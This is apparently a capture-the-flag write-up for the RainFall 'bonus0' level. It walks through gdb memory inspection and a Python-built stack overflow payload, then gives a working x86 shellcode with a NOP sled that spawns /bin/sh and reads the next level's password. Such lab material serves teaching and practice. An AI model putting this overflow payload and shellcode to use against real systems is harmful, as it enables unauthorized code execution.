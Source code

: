 ```sh
(gdb) x/s 0xbffff45d
0xbffff45d:	 "bonus0"
(gdb) x/s 0xbffff45e
0xbffff45e:	 "onus0"
(gdb) x/s 0xbffff460
0xbffff460:	 "us0"
(gdb) x/s 0xbffff45f
0xbffff45f:	 "nus0"
(gdb) x/s 0xbffff460
0xbffff460:	 "us0"
(gdb) x/s 0xbffff468
0xbffff468:	 'A' <repeats 200 times>...
(gdb) x/s 0xbffff467
0xbffff467:	 'A' <repeats 200 times>...
(gdb) x/s 0xbffff460
0xbffff460:	 "us0"
(gdb) x/s 0xbffff462
0xbffff462:	 "0"
(gdb) x/s 0xbffff463
0xbffff463:	 ""
(gdb) x/s 0xbffff464
0xbffff464:	 'A' <repeats 200 times>...
```

av[1] start at 0xbffff464.

Lets assemble our exploit:

```sh
bonus0@RainFall:~$ python -c "print 'A' * 20 + '\n' + 'B' * 20 + '\x90' * 4064 + '\xcb\x85\x04\x08\x64\xf4\xff\xbf\x41\x41\x41'" > /tmp/payload
bonus0@RainFall:~$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run < /tmp/payload
Starting program: /home/user/bonus0/bonus0 < /tmp/payload
 - 
 - 
AAAAAAAAAAAAAAAAAAAA���������d���AAA��� ���������d���AAA���

Program received signal SIGSEGV, Segmentation fault.
0xbffff464 in ?? ()
(gdb) 

```

As you see we segfaulted at the very beggining of av[1].

I had to adjust the address and add 3 A in order to fix the offset, but we did overwrote the return of main with av[1].

All we need to do is fill av[1] with the shellcode and some NOP's and hope it works.


```sh
bonus0@RainFall:~$ ./bonus0 $(python -c "print '\x90' * 5000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'") < /tmp/payload
 - 
 - 
AAAAAAAAAAAAAAAAAAAA���������d���AAA��� ���������d���AAA���
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
$

```

So here i gave the script thats points to av[1] as an input, and then gave the shellcode in av[1].

I tried with 500 NOP's and it didn't worked, but with 5000 it executed a shell !